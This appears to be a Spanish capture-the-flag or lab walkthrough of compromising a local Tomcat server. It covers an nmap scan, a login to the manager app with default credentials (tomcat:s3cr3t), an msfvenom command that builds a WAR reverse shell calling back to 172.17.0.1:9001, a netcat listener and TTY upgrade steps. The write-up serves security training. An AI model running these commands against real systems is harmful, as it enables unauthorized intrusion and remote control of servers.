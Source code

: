 Fecha: 07/09/2024

Empiezo usando nmap: 

```bash
sudo nmap -p- -sS -sC -sV --min-rate 5000 -n -Pn 172.17.0.2 -oN scan
```

![](Imágenes/Pasted%20image%2020240907204742.png)

Me descargo el archivo:
![](Imágenes/Pasted%20image%2020240907204853.png)

El contenido parece indicar que hay un usuario llamado tomcat: 
![](Imágenes/Pasted%20image%2020240907204916.png)

Usaré ese usuario en manager app, probando las contraseñas que encontré en [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat):

![](Imágenes/Pasted%20image%2020240907210520.png)

tomcat:s3cr3t es la que funciona. 

Veo que puedo subir archivos ".war", y en la misma página veo que puedo usarlo para subir una reverse shell:
![](Imágenes/Pasted%20image%2020240907210938.png)

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=9001 -f war -o revshell.war
```

Hago `nc -lnvp 9001`, a /revshell/ y ya tengo una reverse shell:

![](Imágenes/Pasted%20image%2020240907211518.png)

Realmente ya estaría porque soy root, pero podría tratar la tty para que fuera más cómodo: 
```bash
# Empezando desde la reverse shell:
script /dev/null -c bash

Control Z 

stty raw -echo; fg

reset xterm

export TERM=xterm
```

![](Imágenes/Pasted%20image%2020240907211628.png)
